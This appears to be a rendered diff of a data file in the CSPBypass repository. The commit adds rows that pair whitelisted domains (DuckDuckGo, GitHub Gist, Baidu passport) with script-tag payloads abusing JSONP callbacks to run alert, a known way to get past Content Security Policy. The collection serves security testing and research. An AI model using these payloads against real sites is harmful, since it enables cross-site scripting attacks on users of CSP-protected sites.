

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 7: api.duckduckgo.com | <script src="https://api.duckduckgo.com/?q=x&callback=alert&format=json"></script>
+row 33: gist.github.com | <script src="https://gist.github.com/renniepak/e7afcd7e727e1a0c481d955ba10441a9.json?callback=alert"></script>
+row 45: passport.baidu.com | <script src="https://passport.baidu.com/channel/unicast?callback=alert"></script>
```
Also changed, not shown: 6 added rows and 1 edited cell elsewhere in this file.
